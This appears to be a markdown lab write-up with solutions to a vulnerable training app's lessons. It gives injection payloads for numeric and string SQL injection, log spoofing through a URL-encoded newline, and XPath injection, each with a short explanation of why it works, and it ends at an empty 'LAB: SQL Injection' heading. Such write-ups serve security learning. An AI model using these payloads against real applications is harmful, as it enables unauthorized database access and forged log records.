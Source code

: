# Numeric SQL Injection

Click `go` and use burpsuite to intercept traffic.

Modify the following to perform an sql injection ` or 1=1;`

`station=101 or 1=1;&SUBMIT=Go%21`



*Note: After completing the challenge, you will observe that there is a message that says if you try again it will not work as they have turned on some 'defence'. *

*The error message you will encounter will be `Error parsing station as a number: For input string: "101 or 1=1;` which give hints that the input has been sanitized to be parsed as number. Thus, using the `or` and `;` character would not work anymore*



# Log Spoofing

Using urlencoder.org key in the following block of code to be encoded

```
admin
Login succeeded for username: admin
```

and encode it into 

```
admin%0ALogin%20succeeded%20for%20username%3A%20admin
```

And use the encoded string as `username` to login. You will observe that the logs will print out that 'admin' had failed to login but includes a new line of log (fake) that admin has logged in successfully.

# XPATH injection

Use `' or '1' = '1` for username and password to clear challenge.

Note: The xpath query probably is something like this `/root/parent/something[id='our_input_here']/user` so when we use the sqli statement above, we are making the query like this `/root/parent/something[id='or '1' = '1']/user` 

# String SQL injection

Use `' or 1 = 1; --` to complete the challenge.

Note: We know that the sql query is `SELECT * FROM user_data WHERE last_name = 'Your Name'`

using the sqli statement we are terminating the `'` to trick the interpreter to process the next command `or 1 = 1;` which always evaluates to true (returning our results) and the `--` is simply a comment out statement to get rid of the closing `'` the statement would look like this

```sql
SELECT * FROM user_data WHERE last_name = '' or 1 = 1; -- ' Everything behind '--' is commented out!
```

# LAB: SQL Injection


